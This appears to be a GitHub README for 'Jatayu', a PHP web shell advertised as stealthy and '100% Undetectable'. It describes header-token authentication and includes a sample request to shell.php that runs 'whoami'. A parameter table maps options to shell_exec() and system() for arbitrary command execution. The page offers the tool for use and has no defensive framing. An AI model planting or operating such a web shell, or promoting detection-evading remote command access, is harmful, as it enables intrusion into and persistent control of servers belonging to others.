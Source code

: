 <h1 align="center">
  <a href=""><img src="https://github.com/SpiderMate/Jatayu/blob/master/jatayu-image.png" width="100" height="100" alt="Jatayu"></a>
  <br>
  JATAYU
  <br>
</h1>

<h4 align="center">Stealthy Stand Alone PHP Web Shell</h4>

<p align="center">
    <img src="https://img.shields.io/badge/release-Prv8-blue.svg">
    <img src="https://img.shields.io/badge/issues-0-red.svg">
    <img src="https://img.shields.io/badge/php-7-green.svg">
    <img src="https://img.shields.io/badge/php-5-green.svg">
</p>

### FEATURES
- Http Header Based Authentication.
- 100% Undetectable.
- Exec Function Changer.

### USAGE
```
GET /test/shell.php?fn=1&&cmd=whoami
Host : http://test.com
Authtoken : bb3b1a1f-0447-42a6-955a-88681fb88499
```
### FUNCTIONS

| PARAMETER       | FUNCTION                       |
| ----------------|:------------------------------:|
| fn=1            | Calls function shell_exec()    |
| fn=2            | Calls function system()        |
| cmd=id          | Executes command               |


### Nothing Fancy :)
